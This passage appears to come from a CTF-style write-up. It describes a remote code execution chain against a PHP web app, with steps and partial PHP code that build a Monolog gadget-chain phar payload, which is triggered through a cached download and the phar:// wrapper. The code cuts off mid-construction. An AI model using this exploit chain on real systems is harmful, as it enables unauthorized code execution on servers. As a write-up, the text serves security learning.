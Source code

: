 #### Remote Code Execution

By using the features in the web application, we can save the body content of our URL request response to `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(URL)/body.cache`.

The strategies that can be done are:

1. Create a payload to do PHP Object Injection from the available Classes.
2. Place the PHP Object Injection payload in a phar file, for example `exploit.phar` in our IP.
3. Download `http://IP/exploit.phar` from the web application so the cache will be stored in `/var/www/html/tmp/cache/mycache/CLIENT_IP/MD5(http://IP/exploit.phar)/body.cache`
4. Do POST request with data query to open `phar://` stream wrapper so unserialization will occurs.

For gadgets, here we will try to use `Monolog` with references from https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/1.

The following is the code to make the payload `exploit.phar` which will execute `system ('ls -alt')`.

```php
<?php

namespace Monolog\Handler
{
    class SyslogUdpHandler
    {
        protected $socket;
        function __construct($x)
        {
            $this->socket = $x;
        }
    }
    class BufferHandler
    {
        protected $handler;
        protected $bufferSize = -1;
        protected $buffer;
        # ($record['level'] < $this->level) == false
        protected $level = null;
        protected $initialized = true;
        # ($this->bufferLimit > 0 && $this->bufferSize === $this->bufferLimit) == false
        protected $bufferLimit = -1;
        protected $processors;
        function __construct($methods, $command)
        {
            $this->processors = $methods;
            $this->buffer = [$command];
            $this->handler = clone $this;
        }
    }
}

namespace{
    $cmd = "ls -alt";

    $obj = new \Monolog\Handler\SyslogUdpHandler(
        new \Monolog\Handler\BufferHandler(
            ['current', 'system'],
            [$cmd, 'level' => null]
        )
    );

    $phar = new Phar('exploit.phar');
    $phar->startBuffering();
    $phar->addFromString('test', 'test');
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
```
